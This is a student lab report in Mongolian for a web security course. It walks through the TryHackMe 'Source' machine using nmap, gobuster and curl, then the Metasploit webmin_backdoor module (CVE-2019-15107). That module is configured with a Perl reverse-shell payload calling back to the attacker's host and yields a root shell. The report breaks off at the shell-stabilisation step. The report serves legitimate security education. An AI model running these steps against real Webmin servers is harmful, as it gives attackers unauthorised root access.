<style>
@page {
  size: A4;
  margin: 25mm;
}

html, body {
  color: #ffffff;
  font-family: "Times New Roman", serif;
  font-size: 12pt;
  line-height: 1.5;
}

body {
  max-width: 160mm;
  margin: 0 auto;
  padding: 0;
}

.cover {
  min-height: 247mm;
  display: flex;
  flex-direction: column;
  text-align: center;
  page-break-after: always;
  break-after: page;
}

.logo {
  text-align: center;
  margin-top: 12mm;
}

/* Зөвхөн логонд үйлчлэх хэсэг */
.logo img {
  width: 200px;
  height: auto;
  object-fit: contain;
}

/* Тайлан болон бусад хэсэгт орж буй зургийг голлох болон хэмжээг тохируулах */
img:not(.logo img) {
  display: block;
  margin: 15px auto;
  max-width: 100%;
  height: auto;
}

.school {
  font-size: 15pt;
  font-weight: bold;
  margin-top: 4mm;
}

.department {
  font-size: 14pt;
  font-weight: bold;
  margin-top: 2mm;
}

.report-title {
  font-size: 24pt;
  font-weight: bold;
  line-height: 1.35;
  margin-top: 18mm;
}

.course {
  font-size: 15pt;
  margin-top: 8mm;
}

.details {
  text-align: left;
  margin: 25mm 8mm 0 8mm;
  line-height: 2;
}

.city {
  margin-top: auto;
  padding-bottom: 2mm;
  line-height: 1.8;
}

h1, h2, h3 {
  color: #000000;
}

h1 {
  font-size: 16pt;
}

p {
  text-align: justify;
}
</style>

<div class="cover">

<div class="school">
  ШИНЖЛЭХ УХААН ТЕХНОЛОГИЙН ИХ СУРГУУЛЬ
</div>

<div class="department">
  Мэдээлэл холбооны технологийн сургууль
</div>
<div class="logo">
  
</div>

<div class="report-title">
  БИЕ ДААЛТЫН АЖЛЫН<br>
  ТАЙЛАН
</div>

<div class="course">
  Веб системийн аюулгүй байдал / F.NSA335/<br>
  (2026-2027 оны хичээлийн жилийн Намар)
</div>

<div class="details">

**Машины нэр:**  Source

**Хичээл заасан багш:** Ц.Энхтөр /FSN07/

**Лабораторийн цаг:** 2/2

**Бие даалтын ажил гүйцэтгэсэн оюутан:** Г.Ганбаяр B231870023

</div>

<div class="city">
  Улаанбаатар хот<br>
  2026 он
</div>

</div>

# TRYHACKME –  Source 


 ажлын хүрээнд Kali Linux үйлдлийн системийг туршилтын орчин болгон ашиглаж, Nmap, Gobuster, cURL болон Metasploit Framework зэрэг хэрэгслээр зорилтот системийн талаар мэдээлэл цуглуулсан. Судалгааны явцад Webmin үйлчилгээний 1.890 хувилбар ажиллаж байгааг тогтоож, CVE-2019-15107 эмзэг байдлыг Metasploit Framework-ийн `webmin_backdoor` модулиар шалгасан.

Үүний дараа лабораторийн зорилтот системтэй reverse shell холболт амжилттай үүсгэж, Linux системийн хэрэглэгчийн болон эрхийн түвшнийг шалгасан. Эцэст нь `user.txt` болон `root.txt` файлуудыг олж, агуулгыг уншсанаар даалгаврыг амжилттай гүйцэтгэсэн.

.
###  Webmin үйлчилгээний тухай

Webmin нь Linux болон Unix төрлийн үйлдлийн системийг вэб интерфейсээр дамжуулан удирдах боломж олгодог системийн удирдлагын програм хангамж юм. Администратор нь Webmin ашиглан хэрэглэгчийн бүртгэл, үйлчилгээ, сүлжээ, системийн тохиргоо болон бусад удирдлагын ажиллагааг вэб хөтөч эсвэл HTTP клиентээр дамжуулан гүйцэтгэж болно.

Webmin нь системийн удирдлагын өндөр түвшний эрх шаарддаг үйлдлүүдийг гүйцэтгэх боломжтой учраас түүний аюулгүй байдал маш чухал юм. Хэрэв Webmin-ийн эмзэг хувилбар ашиглагдаж байгаа бол халдагч тухайн сул талыг ашиглан системд зөвшөөрөлгүй команд ажиллуулах эрсдэл үүснэ.

Лабораторийн Source машин дээр Webmin 1.890 хувилбар ажиллаж байсан бөгөөд энэ хувилбар нь CVE-2019-15107 эмзэг байдалтай холбоотой байв.

###  CVE-2019-15107 эмзэг байдлын тухай

CVE-2019-15107 нь Webmin програм хангамжийн тодорхой хувилбаруудад илэрсэн алсын командаар ажиллуулах боломжтой Backdoor эмзэг байдал юм.

Энэ эмзэг байдал нь Webmin-ийн `password_change.cgi` бүрэлдэхүүнд нөлөөлсөн бөгөөд 2018 онд програмын эх кодод зөвшөөрөлгүй хортой код оруулсантай холбоотой. Өөрөөр хэлбэл, энэ нь зөвхөн ердийн програмчлалын алдаа бус, програм хангамжийн нийлүүлэлтийн сүлжээний халдлага (Software Supply Chain Compromise)-тай холбоотой тохиолдол юм.

Хортой өөрчлөлт орсон Webmin-ийн тодорхой хувилбарыг ашиглаж буй системд халдагч тусгайлан боловсруулсан хүсэлт илгээж, сервер дээр команд ажиллуулах боломжтой болсон.

Лабораторийн туршилтаар Webmin 1.890 хувилбар эмзэг болохыг Metasploit-ийн `check` командаар баталгаажуулсан. Мөн `run` командыг ажиллуулсны дараа зорилтот системээс Kali Linux руу reverse shell холболт амжилттай үүссэн.

---

##  ЛАБОРАТОРИЙН АЖЛЫН ГҮЙЦЭТГЭЛ


### Nmap ашиглан зорилтот машины портуудыг судлах



Сүлжээний холболт хэвийн болохыг шалгасны дараа зорилтот сервер дээр ямар үйлчилгээ ажиллаж байгааг тодорхойлох шаардлагатай. Үүний тулд Nmap хэрэгслийг ашигласан.

Ашигласан команд:

```bash
nmap -A -Pn -T5 10.112.147.91
```

Командын параметрүүд:

- `nmap` нь сүлжээний төхөөрөмж, нээлттэй порт болон үйлчилгээний мэдээллийг илрүүлэх хэрэгсэл юм.
- `-A` нь үйлдлийн систем, үйлчилгээний хувилбар, скрипт болон traceroute зэрэг нэмэлт мэдээлэл цуглуулах боломжийг идэвхжүүлнэ.
- `-Pn` нь хостыг урьдчилан ping хийхгүйгээр скан хийхийг заана.
- `-T5` нь скан хийх хурдны хамгийн өндөр түвшний тохиргоог ашиглана.
- `10.112.147.91` нь зорилтот серверийн IP хаяг юм.

Скан хийсний үр дүнд зорилтот систем дээр дараах портууд илэрсэн.

| Порт | Үйлчилгээ | Тайлбар |
|---|---|---|
| 22/TCP | SSH | Алсын терминалын холболт |
| 10000/TCP | Webmin | Вэбд суурилсан системийн удирдлага |

Энэ шатны үр дүнгээс Webmin үйлчилгээний 10000 дугаар порт нь цаашид нарийвчлан судлах шаардлагатай үйлчилгээ болохыг тогтоосон.

### Gobuster ашиглан вэб директор хайх



Webmin үйлчилгээний вэб интерфейсийг илүү нарийвчлан судлах зорилгоор Gobuster хэрэгслийг ашигласан. Gobuster нь wordlist ашиглан вэб сервер дээрх нийтэд харагдахгүй директор болон файлын нэрийг таамаглан шалгадаг.

Ашигласан команд:

```bash
gobuster dir -u https://10.112.147.91:10000/ -w /usr/share/wordlists/dirb/common.txt -k
```

Командын параметрүүд:

- `gobuster` нь вэб директор болон файл илрүүлэх хэрэгсэл.
- `dir` нь директор хайх горимыг сонгоно.
- `-u` нь шалгах URL-ийг заана.
- `https://10.112.147.91:10000/` нь Webmin үйлчилгээний HTTPS хаяг.
- `-w` нь хайлт хийх үгсийн жагсаалтыг заана.
- `/usr/share/wordlists/dirb/common.txt` нь Kali Linux-д байдаг нийтлэг директорын нэрсийн жагсаалт.
- `-k` нь TLS сертификатын баталгаажуулалтын алдааг үл тоомсорлон HTTPS хүсэлт илгээх боломж олгоно.

Командын үр дүнд сервер бодит бус URL-д ч HTTP 200 хариу буцааж байсан тул Gobuster нь жинхэнэ олдсон директор болон серверийн ерөнхий хариуг ялгахад хүндрэлтэй болсон. Энэ хайлтаар ашигтай нэмэлт директор илрээгүй.

Энэ нөхцөлийг **Wildcard Response** буюу сервер хүсэлт бүрд ижил төстэй хариу буцаах үзэгдэлтэй холбон тайлбарлаж болно. Ийм үед зөвхөн HTTP статус кодыг ашиглан директор олдсон гэж дүгнэх нь буруу.

Иймээс Gobuster-ийн энэ шатанд бодитой шинэ директор илрээгүй бөгөөд Webmin-ийн хувилбарын мэдээллийг шууд шалгах дараагийн алхамд шилжсэн.

### cURL ашиглан Webmin үйлчилгээний HTTP мэдээлэл авах



Webmin үйлчилгээний HTTP хариу болон серверийн хувилбарын мэдээллийг тодорхойлохын тулд cURL хэрэгслийг ашигласан.

Ашигласан команд:

```bash
curl -k -I https://10.112.147.91:10000/
```

Командын параметрүүд:

- `curl` нь HTTP болон HTTPS зэрэг протоколоор сервертэй харилцах командын мөрийн хэрэгсэл юм.
- `-k` нь TLS сертификатын баталгаажуулалтыг алгасах тохиргоо.
- `-I` нь хүсэлтийн хариуны HTTP header мэдээллийг авах бөгөөд үндсэн хуудасны агуулгыг татахгүй.
- URL нь Webmin үйлчилгээний хаяг юм.

Бодит үр дүн:

```text
HTTP/1.0 200 Document follows
Server: MiniServ/1.890
Auth-type: auth-required=1
```

Үр дүнгээс дараах мэдээллийг тодорхойлсон.

Нэгдүгээрт, сервер HTTP 200 статус буцаасан нь хүсэлтэд хариу өгч байгааг харуулсан. Хоёрдугаарт, `Server: MiniServ/1.890` гэсэн header нь Webmin-ийн MiniServ серверийн 1.890 хувилбарын мэдээллийг ил болгосон. Гуравдугаарт, `Auth-type: auth-required=1` гэсэн мэдээлэл нь тухайн үйлчилгээ нэвтрэлт танилт шаардаж байгааг харуулсан.

Энэхүү хувилбарын мэдээлэл нь дараагийн шатанд CVE-2019-15107 эмзэг байдлыг шалгах үндсэн нотолгоо болсон.

### Metasploit Framework ажиллуулж Webmin модулийг хайх



Webmin үйлчилгээний 1.890 хувилбар илэрсний дараа тухайн хувилбарт хамаарах эмзэг байдлыг шалгах зорилгоор Metasploit Framework-ийг ашигласан.

Metasploit нь нэвтрэлтийн туршилтад зориулсан exploit, auxiliary болон post-exploitation модулиудыг агуулдаг framework юм.

Ажиллуулсан команд:

```bash
msfconsole
```

Энэ команд Metasploit Framework-ийн үндсэн консоль орчныг нээнэ.

Дараа нь Webmin-тэй холбоотой модулиудыг хайсан.

```text
search webmin
```

`search` команд нь Metasploit-ийн модуль сангаас `webmin` гэсэн түлхүүр үгээр хайлт хийдэг.

Хайлтын үр дүнд дараах модуль илэрсэн.

```text
exploit/linux/http/webmin_backdoor
```

Энэ модуль нь Webmin-ийн Backdoor эмзэг байдлыг шалгах болон лабораторийн нөхцөлд ашиглах зориулалттай.

Модулийг сонгохдоо хайлтын үр дүнгийн 10 дугаар мөрийг ашигласан.

```text
use 10
```

Энэ команд нь тухайн хайлтын жагсаалтын 10 дугаар модулийг сонгосон. Сонгосон модуль нь `exploit/linux/http/webmin_backdoor` байсан.

### Metasploit модулийн тохиргоог шалгах



Модуль сонгосны дараа шаардлагатай параметрүүдийг тодорхойлохын тулд дараах командыг ашигласан.

```text
show options
```

`show options` команд нь сонгосон модуль болон payload-ийн тохиргооны параметрүүдийг харуулна.

Энэ шатанд дараах үндсэн параметрүүдийг тохируулах шаардлагатай байсан.

| Параметр | Утга | Тайлбар |
|---|---|---|
| RHOSTS | `10.112.147.91` | Зорилтот серверийн IP |
| RPORT | `10000` | Webmin үйлчилгээний порт |
| SSL | `true` | HTTPS холболт ашиглах |
| LHOST | `192.168.196.54` | Kali VPN IP |
| LPORT | `4444` | Reverse shell хүлээн авах порт |
| PAYLOAD | `cmd/unix/reverse_perl` | Reverse shell payload |

Payload-ийг дараах байдлаар тохируулсан.

```text
set payload cmd/unix/reverse_perl
```

Энэ нь Unix төрлийн систем дээр Perl ашиглан reverse shell холболт үүсгэх payload-ийг сонгож байгаа юм.

Зорилтот серверийн хаягийг тохируулсан.

```text
set RHOSTS 10.112.147.91
```

`RHOSTS` параметр нь халдлагын туршилтад хамрагдах алсын серверийн IP хаягийг заана.

Kali Linux-ийн VPN IP хаягийг тохируулсан.

```text
set LHOST 192.168.196.54
```

`LHOST` параметр нь reverse shell холболт буцаж ирэх Kali Linux машины IP хаяг юм.

HTTPS ашиглах тохиргоог идэвхжүүлсэн.

```text
set SSL true
```

Энэ параметр нь Webmin үйлчилгээтэй SSL/TLS хамгаалалттай HTTPS холболтоор харилцахыг заана.

Эдгээр тохиргооны дараа Metasploit-ийн `show options` командаар параметрүүдийг дахин шалгасан. Үр дүнд RHOSTS, RPORT, SSL, LHOST болон LPORT утгууд тохируулагдсан байв.

### Эмзэг байдлын мэдээллийг шалгах



Exploit модулийн техникийн мэдээлэл болон ашиглалтын нөхцөлийг судлахын тулд дараах командыг ашигласан.

```text
info
```

`info` команд нь сонгосон модулийн нэр, тайлбар, платформ, архитектур, шаардлагатай нөхцөл болон холбогдох CVE мэдээллийг харуулдаг.

Энэ модулийн мэдээллээс дараах зүйлсийг тодорхойлсон.

- Модулийн нэр: Webmin password_change.cgi Backdoor.
- Платформ: Unix, Linux.
- Архитектур: cmd, x86, x64.
- Privileged: Yes.
- Rank: Excellent.
- CVE: CVE-2019-15107.
- Хамаарах Webmin хувилбарууд: 1.890–1.920 хүрээний тодорхой хувилбарууд.

Модулийн тайлбарт 1.890 хувилбар нь анхдагч тохиргоондоо эмзэг байсан тухай дурдсан. Харин дараагийн хувилбаруудад нөлөөлөх нөхцөл нь зарим тохиргооноос хамаарч болохыг тэмдэглэсэн.

Энэ мэдээлэл нь cURL-ээр илрүүлсэн `MiniServ/1.890` хувилбартай тохирч байсан.

### CVE-2019-15107 эмзэг байдлыг шалгах



Metasploit-ийн тохиргоог хийсний дараа зорилтот сервер эмзэг эсэхийг шалгах зорилгоор `check` командыг ажиллуулсан.

```text
check
```

Энэ команд нь exploit модулийн эмзэг байдлын шалгалтын механизмыг ашиглан зорилтот систем тухайн эмзэг байдалд өртөмтгий эсэхийг үнэлдэг.

Бодит үр дүн:

```text
[+] 10.112.147.91:10000 - The target is vulnerable.
Exploitable: version 1.890 is vulnerable
```

Үр дүнгээс зорилтот серверийн Webmin 1.890 хувилбар эмзэг болохыг баталгаажуулсан.

`[+]` тэмдэглэгээ нь шалгалтын амжилттай үр дүнг илэрхийлж байгаа бөгөөд `The target is vulnerable` гэсэн мессеж нь зорилтот систем тухайн эмзэг байдалд өртөмтгий болохыг харуулсан.

Энэ шатанд CVE-2019-15107 эмзэг байдал лабораторийн зорилтот машинд хамаарах нь батлагдсан тул дараагийн шатанд лабораторийн зөвшөөрөгдсөн туршилтыг үргэлжлүүлсэн.

### Reverse shell холболт үүссэн үр дүн



Эмзэг байдлын шалгалт амжилттай болсны дараа Metasploit модулийн `run` командыг ажиллуулсан.

```text
run
```

Энэ команд сонгосон модулийг ажиллуулж, тохируулсан payload-ийг зорилтот системд хүргэхийг оролддог.

Бодит үр дүн:

```text
[*] Started reverse TCP handler on 192.168.196.54:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Exploitable: version 1.890 is vulnerable
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Command shell session 1 opened
(192.168.196.54:4444 -> 10.112.147.91:45066)
```

Энэ үр дүнгээс дараах техникийн мэдээллийг тодорхойлсон.

Нэгдүгээрт, Kali Linux талд `192.168.196.54:4444` хаяг дээр reverse TCP handler ажиллаж эхэлсэн.

Хоёрдугаарт, Metasploit зорилтот системийн эмзэг байдлыг дахин автоматаар шалгасан бөгөөд эмзэг хэвээр байгааг баталгаажуулсан.

Гуравдугаарт, `cmd/unix/reverse_perl` payload-ийг илгээсэн.

Дөрөвдүгээрт, `Command shell session 1 opened` гэсэн үр дүн гарсан нь зорилтот системээс Kali Linux руу командын shell холболт амжилттай үүссэнийг нотолсон.

Энэ нь лабораторийн ажлын анхны системийн хандалт амжилттай болсныг харуулсан үндсэн нотолгоо юм.

### Shell-ийн эрхийн түвшнийг шалгах



Reverse shell холболт амжилттай үүссэний дараа зорилтот систем дээр ямар хэрэглэгчийн эрхээр ажиллаж байгааг шалгах шаардлагатай болсон.

Эхлээд дараах командыг ашигласан.

```bash
whoami
```

Үр дүн:

```text
root
```

Энэ нь одоогийн shell `root` хэрэглэгчийн эрхээр ажиллаж байгааг харуулсан.

Дараа нь хэрэглэгчийн UID болон GID мэдээллийг шалгасан.

```bash
id
```

Бодит үр дүн:

```text
uid=0(root) gid=0(root) groups=0(root)
```

Linux системд `UID 0` нь root буюу супер хэрэглэгчийн эрхийг илэрхийлдэг. Иймээс энэ үр дүн нь зөвхөн shell нээгдсэнээс гадна root эрхтэй командын орчинд нэвтэрснийг баталсан.

Одоогийн ажиллаж буй директорын замыг тодорхойлохын тулд:

```bash
pwd
```

Үр дүн:

```text
/usr/share/webmin
```

Энэ нь shell анх Webmin-ийн суулгацын директор дотор ажиллаж байсныг харуулсан.

### Pseudo-terminal ашиглан shell-ийг тогтворжуулах

